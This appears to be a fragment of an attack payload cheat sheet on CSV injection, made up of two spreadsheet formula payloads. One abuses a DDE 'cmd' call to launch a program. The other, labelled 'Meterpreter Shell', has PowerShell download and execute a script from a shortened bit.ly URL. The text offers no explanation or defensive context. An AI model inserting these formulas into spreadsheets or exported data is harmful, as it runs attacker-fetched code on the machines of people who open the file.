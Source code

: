 ## CSV Injection

**Newline character**

```
%0A-3+3+cmd|' /C calc'!D2
```

**Meterpreter Shell**

```
=cmd|'/C powershell IEX(wget bit.ly/1X146m3)'!A0
```